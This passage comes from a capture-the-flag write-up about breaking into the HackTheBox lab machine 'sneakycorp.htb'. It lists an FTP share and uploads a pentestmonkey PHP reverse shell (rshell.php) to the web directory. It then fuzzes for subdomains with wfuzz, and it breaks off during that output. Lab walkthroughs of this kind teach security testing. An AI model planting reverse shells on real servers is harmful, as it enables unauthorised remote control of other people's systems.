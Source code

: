 ```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
```
## Gaining Access

SSH fails, but we're in FTP. Because of the mention of the Python modules in PyPI, let's navigate there.
```
ftp> cd pypi
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            3115 May 26 19:52 register.php
226 Directory send OK.
```
It appears like there is only a PHP file. We can use `get` to download all the files. However, there doesn't appear to be much worth anything. So let's run a reverse shell from pentestmonkey.

```
ftp> pwd
257 "/dev" is the current directory
ftp> put rshell.php
local: rshell.php remote: rshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (20.5358 MB/s)
```
Navigating to http://sneakycorp.htb/rshell.php gives us a 404, so maybe there is a subdomain.

```
$ wfuzz -H "HOST: FUZZ.sneakycorp.htb" -u http://10.10.10.197 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# This had a lot of results, so to limit the space hide the codes of 185 characters with the -hh flag
$ wfuzz -H "HOST: FUZZ.sneakycorp.htb" -u http://10.10.10.197 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -hh 185
...
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.197/
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload            
===================================================================

000000009:   400        7 L      12 W     173 Ch      "# Suite 300, San F
                                                      rancisco, Californi
                                                      a, 94105, USA."    
000000007:   400        7 L      12 W     173 Ch      "# license, visit h
                                                      ttp://creativecommo
```